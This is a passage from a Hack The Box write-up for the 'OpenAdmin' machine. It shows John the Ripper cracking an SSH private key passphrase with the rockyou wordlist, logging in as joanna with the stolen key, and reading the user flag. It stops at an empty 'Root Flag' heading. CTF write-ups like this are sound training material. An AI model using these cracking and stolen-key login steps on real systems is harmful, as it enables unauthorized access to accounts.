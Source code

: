 ## Password Cracking

Now use rockyou wordlist with John to try and crack:

```text
┌──(root💀kali)-[~/htb/openadmin]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt joanna.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>      (rsa_id)
1g 0:00:00:05 DONE (2021-07-26 22:41) 0.1805g/s 2588Kp/s 2588Kc/s 2588KC/sa6_123..*7¡Vamos!
Session completed
```

## Joanna SSH Access

We have the password, and can now login in via SSH as Joanna:

```text
┌──(root💀kali)-[~/htb/openadmin]
└─# chmod 600 rsa_id

┌──(root💀kali)-[~/htb/openadmin]
└─# ssh -i rsa_id joanna@10.10.10.171
Enter passphrase for key 'rsa_id': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

  System information as of Mon Jul 26 21:48:51 UTC 2021

Last login: Mon Jul 26 18:50:29 2021 from 10.10.14.90
joanna@openadmin:~$
```

## User Flag

Let's grab the user flag:

```text
joanna@openadmin:~$ ls -l
-rw-rw-r-- 1 joanna joanna 33 Nov 28  2019 user.txt

joanna@openadmin:~$ cat user.txt
c<HIDDEN>f
```

## Root Flag
